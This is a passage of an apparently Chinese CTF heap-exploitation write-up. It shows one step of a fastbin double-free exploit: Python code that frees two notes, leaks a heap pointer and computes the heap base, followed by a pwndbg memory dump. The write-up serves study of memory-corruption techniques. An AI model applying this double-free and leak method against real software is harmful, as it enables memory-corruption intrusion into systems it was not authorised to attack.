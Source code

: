 **STEP3**

```
delete_note(2)                # fastbin: chunk2->chunk0
delete_note(1)                # fastbin: chunk1->chunk2->chunk0
list_note()
p.recvuntil('0. ')
heap = u64(p.recv(4)+'\x00'*4) - 0x18a0
raw_input("step3 success")
```

这里先释放了2号节点，然后释放了1号节点(即free(chunk1))形成double free，该fd指针会指向chunk2

注意上一步chunk1已经被分配出去了。因此通过读取分配出去的节点内容，就可以获得chunk2的地址。这里的list_node调用泄露了地址为0x18138a0，减0x18a0得到堆基址0x1812000，然后进一步根据偏移可以定位到struct node_list结构体地址。

此时查看内存布局如下：

```
pwndbg> x/gx 0x6020a0
0x6020a0 <list>:        0x0000000001812010
pwndbg> x/30gx 0x000000001812010                                                                     
0x1812010:       0x0000000000000100      0x0000000000000002
0x1812020:       0x0000000000000001      0x0000000000000030
0x1812030:       0x0000000001813870      0x0000000000000000
0x1812040:       0x0000000000000000      0x0000000001813870
0x1812050:       0x0000000000000000      0x0000000000000000
0x1812060:       0x00000000018138b0      0x0000000000000001
0x1812070:       0x0000000000000030      0x00000000018138f0
0x1812080:       0x0000000000000001      0x0000000000000041
0x1812090:       0x0000000001813930      0x0000000000000000
0x18120a0:       0x0000000000000000      0x0000000000000000
pwndbg> x/50gx 0x000000001813830-0x10
0x1813820:       0x0000000000000000      0x0000000000000041
0x1813830:       0x0000000000000000      0x4141414141414141
0x1813840:       0x4141414141414141      0x4141414141414141
0x1813850:       0x4141414141414141      0x0041414141414141
0x1813860:       0x0000000000000000      0x0000000000000041
0x1813870:       0x00000000018138a0      0x4545454545454545      # double free后，fd=chunk2地址
0x1813880:       0x4545454545454545      0x4545454545454545
0x1813890:       0x4545454545454545      0x0045454545454545
0x18138a0:       0x0000000000000000      0x0000000000000041
0x18138b0:       0x0000000001813820      0x4343434343434343
0x18138c0:       0x4343434343434343      0x4343434343434343
0x18138d0:       0x4343434343434343      0x0043434343434343
0x18138e0:       0x0000000000000000      0x0000000000000041
0x18138f0:       0x4444444444444444      0x4444444444444444
0x1813900:       0x4444444444444444      0x4444444444444444
0x1813910:       0x4444444444444444      0x0044444444444444
0x1813920:       0x0000000000000000      0x0000000000000051
0x1813930:       0x4545454545454545      0x4545454545454545
0x1813940:       0x4545454545454545      0x4545454545454545
0x1813950:       0x4545454545454545      0x4545454545454545
0x1813960:       0x4545454545454545      0x4545454545454545
0x1813970:       0x0000000000000000      0x0000000000020691
0x1813980:       0x0000000000000000      0x0000000000000000
```
